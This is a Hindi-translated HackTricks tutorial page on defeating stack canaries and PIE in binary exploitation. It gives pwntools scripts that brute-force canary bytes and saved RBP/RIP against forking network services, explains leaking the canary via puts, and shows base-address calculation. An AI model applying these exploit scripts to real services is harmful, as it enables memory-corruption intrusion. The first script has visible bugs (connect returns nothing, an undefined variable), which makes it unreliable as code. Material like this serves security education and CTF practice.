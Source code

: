 <details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **अपनी हैकिंग ट्रिक्स साझा करें, HackTricks** [**और HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>


**यदि आप एक बाइनरी का सामना कर रहे हैं जो कैनरी और PIE (Position Independent Executable) द्वारा सुरक्षित है, तो आपको शायद उन्हें बायपास करने का तरीका खोजना होगा।**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
ध्यान दें कि **`checksec`** यह नहीं पता लगा सकता कि एक बाइनरी कैनरी द्वारा सुरक्षित है यदि यह स्थिर रूप से संकलित की गई है और यह फंक्शन की पहचान करने में सक्षम नहीं है।\
हालांकि, आप मैन्युअल रूप से इसे नोटिस कर सकते हैं यदि आप पाते हैं कि एक मान को फंक्शन कॉल की शुरुआत में स्टैक में सहेजा गया है और यह मान निकास से पहले जांचा जाता है।
{% endhint %}

# कैनरी को ब्रूट फोर्स करना

एक साधारण कैनरी को बायपास करने का सबसे अच्छा तरीका है यदि बाइनरी एक प्रोग्राम है जो **हर बार जब आप इसके साथ एक नया कनेक्शन स्थापित करते हैं तो चाइल्ड प्रोसेसेस को फोर्क करता है** (नेटवर्क सेवा), क्योंकि हर बार जब आप इससे जुड़ते हैं **वही कैनरी का उपयोग किया जाएगा**।

तब, कैनरी को बायपास करने का सबसे अच्छा तरीका बस **इसे चर दर चर ब्रूट-फोर्स करना है**, और आप यह पता लगा सकते हैं कि अनुमानित कैनरी बाइट सही थी या नहीं, यह जांचकर कि कार्यक्रम क्रैश हुआ है या इसका नियमित प्रवाह जारी है। इस उदाहरण में फंक्शन **8 बाइट्स कैनरी (x64) को ब्रूट-फोर्स करता है** और सही अनुमानित बाइट और एक खराब बाइट के बीच अंतर करता है बस **जांच** करके कि क्या सर्वर द्वारा एक **प्रतिक्रिया** वापस भेजी गई है (दूसरे तरीके में **अन्य स्थिति** में **try/except** का उपयोग करके हो सकता है):

## उदाहरण 1

यह उदाहरण 64 बिट्स के लिए लागू किया गया है लेकिन इसे 32 बिट्स के लिए आसानी से लागू किया जा सकता है।
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## उदाहरण 2

यह 32 बिट्स के लिए लागू किया गया है, परंतु इसे आसानी से 64बिट्स में बदला जा सकता है।\
ध्यान दें कि इस उदाहरण के लिए **प्रोग्राम पहले एक बाइट की अपेक्षा करता है जो इनपुट के आकार को इंगित करता है** और फिर पेलोड।
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# प्रिंट कैनरी

कैनरी को बायपास करने का एक और तरीका है उसे **प्रिंट करना**।\
कल्पना कीजिए कि एक **प्रोग्राम जो स्टैक ओवरफ्लो के लिए संवेदनशील है** वह एक **puts** फंक्शन को **स्टैक ओवरफ्लो के हिस्से की ओर इंगित करके** निष्पादित कर सकता है। हमलावर जानता है कि कैनरी का **पहला बाइट एक नल बाइट है** (`\x00`) और कैनरी के बाकी बाइट्स **रैंडम** होते हैं। फिर, हमलावर एक ओवरफ्लो बना सकता है जो **कैनरी के पहले बाइट तक स्टैक को ओवरराइट कर देता है**।\
फिर, हमलावर **puts फंक्शनलिटी को कॉल करता है** पेलोड के मध्य में जो **सारे कैनरी को प्रिंट कर देगा** (पहले नल बाइट को छोड़कर)।\
इस जानकारी के साथ हमलावर **नया हमला तैयार करके भेज सकता है** जिसमें कैनरी का पता होता है (उसी प्रोग्राम सत्र में)

स्पष्ट रूप से, यह तकनीक बहुत **सीमित** है क्योंकि हमलावर को **प्रिंट** करने में सक्षम होना चाहिए **अपने पेलोड की सामग्री** को **निकालने** के लिए **कैनरी** और फिर एक नया पेलोड बनाने में सक्षम होना चाहिए (उसी प्रोग्राम सत्र में) और **असली बफर ओवरफ्लो भेजने** के लिए।\
CTF उदाहरण: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

PIE को बायपास करने के लिए आपको **कुछ पता लीक करना** होगा। और अगर बाइनरी कोई पते लीक नहीं कर रही है तो इसे करने का सबसे अच्छा तरीका है **RBP और RIP को स्टैक में सेव किए गए ब्रूट-फोर्स करना** जो संवेदनशील फंक्शन में है।\
उदाहरण के लिए, अगर एक बाइनरी **कैनरी** और **PIE** दोनों का उपयोग करके सुरक्षित है, तो आप कैनरी को ब्रूट-फोर्स करना शुरू कर सकते हैं, फिर **अगले** 8 बाइट्स (x64) सेव किए गए **RBP** होंगे और **अगले** 8 बाइट्स सेव किए गए **RIP होंगे।**

बाइनरी से RBP और RIP को ब्रूट-फोर्स करने के लिए आप यह पता लगा सकते हैं कि एक मान्य अनुमानित बाइट सही है अगर प्रोग्राम कुछ आउटपुट करता है या बस क्रैश नहीं होता है। कैनरी को ब्रूट-फोर्स करने के लिए प्रदान किए गए **वही फंक्शन** का उपयोग RBP और RIP को ब्रूट-फोर्स करने के लिए किया जा सकता है:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## बेस एड्रेस प्राप्त करें

PIE को पराजित करने के लिए आखिरी चीज जो आपको करनी है वह है **लीक किए गए** पतों से **उपयोगी पते की गणना करना**: **RBP** और **RIP**.

**RBP** से आप यह गणना कर सकते हैं कि **आप अपने शेलकोड को स्टैक में कहाँ लिख रहे हैं**. यह जानना बहुत उपयोगी हो सकता है कि आप स्टैक के अंदर _"/bin/sh\x00"_ स्ट्रिंग को कहाँ लिखने वाले हैं। **RBP को लीक करने के बाद एक ब्रेकपॉइंट लगाकर** और जांच करके कि **आपका शेलकोड कहाँ स्थित है**, आप शेलकोड और RBP के बीच की दूरी की गणना कर सकते हैं:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP** से आप **PIE बाइनरी का बेस एड्रेस** की गणना कर सकते हैं जो आपको **वैध ROP चेन** बनाने के लिए आवश्यक होगा।
बेस एड्रेस की गणना करने के लिए बस `objdump -d vunbinary` करें और डिसअसेंबल किए गए अंतिम पते की जांच करें:

![](<../../.gitbook/assets/image (145).png>)

उस उदाहरण में आप देख सकते हैं कि सभी कोड को लोकेट करने के लिए केवल **1 बाइट और आधा ही आवश्यक है**, तब, इस स्थिति में बेस एड्रेस **लीक किया गया RIP होगा लेकिन "000" पर समाप्त होगा**। उदाहरण के लिए यदि आपने _0x562002970**ecf**_ को लीक किया है तो बेस एड्रेस _0x562002970**000**_ होगा।
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
